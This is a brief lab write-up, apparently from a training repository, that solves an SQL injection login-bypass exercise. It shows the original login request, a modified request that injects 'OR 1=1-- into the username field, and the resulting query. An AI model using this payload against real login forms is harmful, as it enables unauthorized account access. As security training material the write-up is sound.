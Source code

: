 ## Lab #2: SQL injection vulnerability allowing login bypass

> This lab contains an SQL injection vulnerability in the login function.
>
> To solve the lab, perform an SQL injection attack that logs in to the application as the administrator user. 

Parameter:
```
csrf=XXXXXXXX&username=administrator&password=1
```

Modified:
```
csrf=XXXXXXXX&username=administrator'OR+1=1--&password=1
```

```
SELECT username, password WHERE username='administrator' OR 1=1 -- 'AND password='fahmi'
```

Next: [UNION attack](03-union-attacks/README.md)
